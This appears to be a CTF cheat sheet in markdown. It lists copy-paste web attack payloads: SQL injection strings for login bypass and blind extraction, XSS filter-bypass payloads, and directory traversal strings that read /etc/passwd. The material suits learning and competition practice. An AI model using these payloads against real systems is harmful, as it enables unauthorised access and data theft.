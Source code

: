 ```yaml
---
title: "CTF Cheat Sheets Collection"
description: "Quick CTF reference: SQL injection, XSS, crypto ciphers, binary exploitation, forensics & network analysis. Copy-paste commands for CTF competitions."
---
```


# 🚀 CTF Cheat Sheets Collection

Quick reference guides for common CTF challenge types and techniques.

---

## 🌐 Web Exploitation

### SQL Injection
```sql
-- Basic authentication bypass
admin'--
admin' OR '1'='1'--
' OR 1=1--

-- Union-based injection
' UNION SELECT 1,2,3--
' UNION SELECT username,password FROM users--

-- Time-based blind injection
'; WAITFOR DELAY '00:00:05'--
'; SELECT SLEEP(5)--

-- Boolean-based blind injection
' AND (SELECT SUBSTRING(@@version,1,1))='5'--
```

### XSS (Cross-Site Scripting)
```html
<!-- Basic payload -->
<script>alert('XSS')</script>

<!-- Event handlers -->
<img src=x onerror=alert('XSS')>
<body onload=alert('XSS')>

<!-- Bypass filters -->
<ScRiPt>alert('XSS')</ScRiPt>
javascript:alert('XSS')
<svg/onload=alert('XSS')>
```

### Directory Traversal
```bash
# Basic payloads
../../../etc/passwd
..\..\..\..\windows\system32\drivers\etc\hosts

# URL encoded
%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64

# Double encoding
%252e%252e%252f
```
